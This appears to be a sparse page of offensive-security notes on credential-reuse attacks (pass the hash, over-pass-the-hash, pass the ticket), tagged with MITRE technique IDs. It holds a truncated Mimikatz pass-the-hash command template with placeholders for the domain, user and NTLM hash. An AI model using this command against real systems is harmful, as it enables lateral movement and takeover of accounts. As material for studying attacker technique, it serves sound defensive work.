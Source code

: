 # 🤯 Pass the \*shit

### Pass the Password

### Pass the Hash

<details>

<summary>T1550.002</summary>



</details>

{% code overflow="wrap" %}
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<computer> /user:Administrator /ntlm:<hash> /run:powe
```
{% endcode %}

### Over-Pass-the-Hash

Over-Pass-the-Hash – Requires access as a user. Used to pivoting.

### Pass the Cookie

### Pass the Ticket

<details>

<summary>T1550.003</summary>



</details>

Pass-the-Ticket – Requires access as user. Use to pivot
